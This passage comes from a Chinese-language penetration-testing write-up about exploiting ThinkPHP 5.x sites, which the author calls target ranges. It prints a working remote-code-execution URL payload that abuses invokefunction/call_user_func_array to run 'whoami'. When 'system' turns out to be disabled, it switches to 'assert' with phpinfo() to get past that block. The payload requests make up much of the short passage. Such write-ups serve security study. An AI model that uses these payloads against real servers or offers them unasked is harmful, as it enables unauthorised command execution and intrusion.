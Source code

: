 后面也去看了下另外一个站点，也是 ThinkPHP 框架搭的

靶场一是 ThinkPHP V5.1.38，靶场二是 ThinkPHP V5.0.5

尝试去用网上的 ThinkPHP RCE 的 EXP

```bash
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&va
rs[1][]=whoami
```

结果显示 system 函数由于安全原因被禁用了

[![](assets/1706145764-86a989e89d72403395a856c516770857.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122213521-16e6b726-b92b-1.png)

其实测到这个地方我感觉是有戏的，因为这里不是说不允许你去这么干

而是说你调用的 system 函数被禁用而已

这里我选择把 system 换成 assert，再尝试一下

```bash
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&va
rs[1][]=phpinfo()
```
